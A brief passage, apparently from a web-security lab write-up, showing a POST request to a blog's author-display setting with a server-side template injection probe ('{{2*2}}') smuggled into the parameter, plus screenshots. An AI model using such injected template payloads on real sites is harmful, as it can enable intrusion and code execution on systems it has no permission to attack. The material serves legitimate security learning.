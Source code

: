 ![img](media/f52de19d223b660af15ad3f110b6ca44.png)

If you change it to the nickname, in the comments you see H0td0g:

![img](media/ebc2142a0fb2a56941fc035e3ac973e1.png)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-blog-post-author-display HTTP/2
...

blog-post-author-display=user.nickname}}{{2*2}}&csrf=PdLe58H5wvdQEv1PtPmQOJMvRz3krZgs
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/434c1fcac5cf9230adc6ee7ba9f1c8b2.png)
